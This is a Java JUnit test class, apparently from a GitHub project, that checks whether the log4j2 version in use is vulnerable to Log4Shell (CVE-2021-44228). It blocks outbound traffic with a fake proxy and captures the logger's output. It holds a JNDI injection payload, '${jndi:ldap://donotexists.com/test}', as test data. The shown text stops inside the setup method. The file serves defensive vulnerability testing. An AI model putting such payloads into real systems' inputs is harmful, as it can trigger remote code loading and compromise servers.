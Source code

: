 ```java
import org.junit.Assert;
import org.junit.Before;
import org.junit.Test;

import java.io.ByteArrayOutputStream;
import java.io.PrintStream;
import java.nio.charset.StandardCharsets;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.nio.file.StandardOpenOption;
import java.util.concurrent.TimeUnit;

/**
 * Test suite to ensure that the current version used of log4j-core is not exposed to log4shell vulnerability for CVE-2021-44228.
 *
 * @see "https://www.studytonight.com/post/log4j2-programmatic-configuration-in-java-class"
 * @see "https://docs.oracle.com/javase/7/docs/technotes/guides/net/properties.html"
 */
public class Log4ShellExposureTest {

    private static final String TEST_PAYLOAD = "${jndi:ldap://donotexists.com/test}";
    private static final String TEST_FAILED_MARKER = "Error looking up JNDI resource";
    private Logger victim;
    private final ByteArrayOutputStream captureStream = new ByteArrayOutputStream();
    private final PrintStream currentSystemOut = System.out;
    private final PrintStream currentSystemErr = System.err;

    @Before
    public void testSuiteSetup() throws Exception {
        //Capture SystemOut and SystemErr
        PrintStream ps = new PrintStream(captureStream);
        System.setOut(ps);
        System.setErr(ps);
        //Set a SOCK nonexistent proxy to prevent any data to be sent out or any call to exit the network
        System.setProperty("proxySet", "true");
        System.setProperty("socksProxyHost", "10.10.10.10");
        System.setProperty("socksProxyPort", "1111");
        //Set a quick socket timeout to speed up the test
        System.setProperty("sun.net.client.defaultConnectTimeout", "2000");
        System.setProperty("sun.net.client.defaultReadTimeout", "2000");
        //Setup the logger
        ConfigurationBuilder<BuiltConfiguration> builder = ConfigurationBuilderFactory.newConfigurationBuilder();
        builder.setStatusLevel(Level.INFO);
        builder.setConfigurationName("DefaultLogger");
        AppenderComponentBuilder appenderBuilder = builder.newAppender("Console", "CONSOLE").addAttribute("target", ConsoleAppender.Target.SYSTEM_OUT);
        appenderBuilder.add(builder.newLayout("PatternLayout").addAttribute("pattern", "%m%n"));
        RootLoggerComponentBuilder rootLogger = builder.newRootLogger(Level.INFO);
        rootLogger.add(builder.newAppenderRef("Console"));
        builder.add(appenderBuilder);
        builder.add(rootLogger);
        //Use this method if reconfigure() do not exists in the log4j2 tested version
        //Configurator.initialize(builder.build()); 		
        Configurator.reconfigure(builder.build());
        //Setup the logger used
        victim = LogManager.getRootLogger();
        //Display execution context
        System.out.printf("LOG4J2 version: %s\n", victim.getClass().getPackage().getImplementationVersion());
        System.out.printf("Java version  : %s\n", System.getProperty("java.version"));
```